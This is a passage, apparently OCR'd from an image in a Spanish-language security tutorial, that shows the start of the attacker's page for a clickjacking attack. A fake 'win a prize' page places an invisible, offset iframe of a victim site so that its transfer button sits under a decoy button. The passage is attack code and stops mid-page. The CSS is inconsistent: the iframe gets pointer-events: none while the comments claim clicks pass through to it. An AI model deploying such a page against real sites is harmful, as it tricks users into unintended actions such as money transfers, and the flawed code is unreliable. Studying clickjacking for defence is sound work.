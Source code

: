 ### Código del Atacante

```html
<!DOCTYPE html>
<html>
<head>
    <title>¡Gana un Premio!</title>
    <style>
        /* Estilo para posicionar el iframe exactamente donde queremos */
        #victima {
            position: absolute;
            opacity: 0; /* Invisible para el usuario */
            z-index: 2;
            top: 0;
            left: 0;
            width: 800px;
            height: 500px;
            /* Desplazamos el iframe para alinear el botón de transferencia 
               con nuestro botón de "Reclamar Premio" */
            margin-top: -120px;
            margin-left: -50px;
            border: none;
            pointer-events: none; /* Permitimos que los clics pasen a través */
        }
        
        #capa-trampa {
            position: relative;
            z-index: 1;
            width: 300px;
            height: 300px;
            background-color: #f0f0f0;
            text-align: center;
            padding: 20px;
        }
        
        #boton-trampa {
            position: relative;
            pointer-events: none; /* Los clics pasan al iframe debajo */
            padding: 15px 30px;
            background-color: #4CAF50;
            color: white;
            border: none;
            cursor: pointer;
            font-size: 16px;
            margin-top: 30px;
        }
        
        #area-clickeable {
            position: absolute;
            width: 200px;
            height: 50px;
            top: 140px;
            left: 50px;
            z-index: 3;
            cursor: pointer;
        }
    </style>
</head>
<body>
    <div id="capa-trampa">
        <h2>¡Felicidades!</h2>
        <p>Has sido seleccionado para recibir un premio especial.</p>
        
```